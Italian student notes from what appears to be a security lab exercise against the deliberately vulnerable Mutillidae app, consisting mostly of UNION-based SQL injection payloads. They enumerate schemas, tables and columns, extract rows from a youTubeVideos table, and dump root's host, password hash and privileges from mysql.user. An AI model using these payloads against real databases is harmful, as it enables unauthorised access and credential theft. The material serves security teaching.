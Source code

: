 
# 2. Sql injection

```sql
' ORDER BY 7
test' UNION SELECT null,@@version,user(),'test',null,null,null --
```

Se per qualche motivo vuoi anche il database name : aggiungi anche il `database()` agli input della SELECT.

Se vuoi la lista dei DB:
```sql
SELECT schema_name FROM information_schema.schemata
```

Se vuoi la lista delle tabelle :
```sql
SELECT table_name FROM information_schema.tables WHERE table_schema='nome_db'
```

Se vuoi la lista delle colonne:
```sql
SELECT column_name FROM information_schema.columns WHERE table_name='nome_tabella'
```

**2.2**
```sql
' AND 1=0 UNION SELECT null, COLUMN_NAME, null, null,null, null,null FROM information_schema.columns WHERE table_name="youTubeVideos" -- 

' UNION SELECT null, identificationToken, null,null,null,null,null FROM youTubeVideos -- 


VEDI CHE NON c'è l'ide che il prof cerca

```

```sql
test' UNION SELECT null,table_name,null,null,null,null,null FROM information_schema.tables -- 
```
è carino ma voglio vedere anche i nomi dei db

```sql
test' UNION SELECT null,null,CONCAT(table_schema,':' ,table_name),null,null,null,null FROM information_schema.tables -- 
```

ORA che sai bene anche il nome del db, sei sicuro anche del nome della tabella.

ORA facciamo la ricerca sulla tabella `youTubeVideos'
```sql
test' UNION SELECT null, CONCAT(table_name,':',column_name),null,null,null,null,null FROM information_schema.columns -- 
```

i campi sono
recordIndetifier
identificationToken
title

```sql
test' UNION SELECT null,recordIndetifier ,identificationToken,title,null,null,null FROM youTubeVideos -- 
```

per cercare il `DXtLNGqfgMo` faccio

```sql
test' UNION SELECT null, recordIndetifier, title, null,null,null,null FROM youTubeVideos WHERE identificationToken='DXtLNGqfgMo' -- 
```
**2.3**


ATTENZIONE DEVI GUARDARE USER non USERS


Aggiungi table schema e vedi che ti arriva da quel db
```sql
' UNION SELECT null, COLUMN_NAME, null, null, null, null, null FROM information_schema.columns WHERE table_name="user" -- 

' UNION SELECT null, COLUMN_NAME, table_schema, null, null, null, null FROM information_schema.columns WHERE table_name="user" --

E ottieni http://192.168.122.123/mutillidae/index.php?page=user-info.php&username=%27+UNION+SELECT+null%2C+COLUMN_NAME%2C+table_schema%2C+null%2C+null%2C+null%2C+null+FROM+information_schema.columns+WHERE+table_name%3D%22user%22+--+&password=&user-info-php-submit-button=View+Account+Details


PUOI FARE PIU'


' UNION SELECT null, password_expired, null, null,null,null,null FROM mysql.user -- 


concat per avere concatenare gli input

' UNION SELECT null,CONCAT(Host, ":", User,":",Password,":", Super_priv,":", Show_db_priv,":", Create_user_priv), null ,null,null,null,null FROM mysql.user WHERE User='root' -- 



```

